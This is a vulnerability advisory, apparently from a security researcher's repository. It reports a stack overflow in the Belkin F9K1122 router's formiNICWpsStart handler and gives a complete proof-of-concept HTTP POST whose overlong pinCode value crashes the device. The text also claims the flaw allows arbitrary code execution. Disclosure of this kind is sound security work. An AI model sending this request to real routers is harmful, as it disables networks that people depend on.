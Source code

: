 # Belkin Vulnerability

Vendor:Belkin

Product:F9K1122

Version:1.00.33

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in Belkin router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `webs` binary:

In the router's `formiNICWpsStart` function, `pinCode` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `pinCode` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `pinCode` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `pinCode` as **11111......** , and the router will crash, such as:

```http
POST /goform/formiNICWpsStart HTTP/1.1
Host: 192.168.1.5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 335
Origin: http://192.168.1.5
Connection: close
Referer: http://192.168.1.5/index2.asp
Upgrade-Insecure-Requests: 1

configOption=pin&pinCode=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&wlan-url=
```



## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
